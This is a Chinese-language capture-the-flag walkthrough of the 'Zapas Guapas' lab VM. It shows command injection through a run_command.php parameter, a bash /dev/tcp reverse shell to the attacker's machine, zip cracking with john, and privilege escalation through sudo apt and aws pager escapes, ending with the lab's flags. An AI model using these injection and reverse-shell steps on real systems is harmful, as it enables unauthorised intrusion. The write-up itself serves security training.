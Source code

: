 # Zapas Guapas

2025.03.08 https://thehackerslabs.com/zapas-guapas/

[video](https://www.bilibili.com/video/BV1dk99YHEUh/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描发现 http://192.168.5.40/login.html 同时提交的 url 显示为 http://192.168.5.40/run_command.php 看文件名像是能执行命令，尝试探测：

```
curl -s 'http://192.168.5.40/run_command.php?username=1&password=1;id'
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

执行反弹 shell 到 kali 上：

```
curl -G --data-urlencode 'password=1;/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40/run_command.php
```

进入系统后，这里得到提示:

```
www-data@zapasguapas:/home/pronike$ cat nota.txt
Creo que proadidas esta detras del robo de mi contraseña
```

进行枚举，发现 zip 文件：

```
www-data@zapasguapas:/opt$ ls
importante.zip
```

解压需要密码，john 进行破解得到密码 hotstuff :

```
www-data@zapasguapas:/tmp$ cat password.txt
He conseguido la contraseña de pronike. Adidas FOREVER!!!!

pronike11
```

得到 pronike 用户名密码，ssh 登陆到该用户，sudo -l 显示 (proadidas) NOPASSWD: /usr/bin/apt 进而提权到 proadidas ：

```
sudo -u proadidas apt changelog apt
!/bin/sh
```

提权到 proadidas 后，再次执行 sudo -l 显示：

```
(proadidas) NOPASSWD: /usr/bin/apt
(root) NOPASSWD: /usr/bin/aws
```

可以直接提权到 root：

```
sudo aws help
!/bin/sh
```

拿到了 2 个 flag：

```
root@zapasguapas:/home/proadidas# cat user.txt
f3e431cd1129e9879e482fcb2cc151e8

root@zapasguapas:~# cat root.txt
8248277d23437d00d019be05054259d2
```
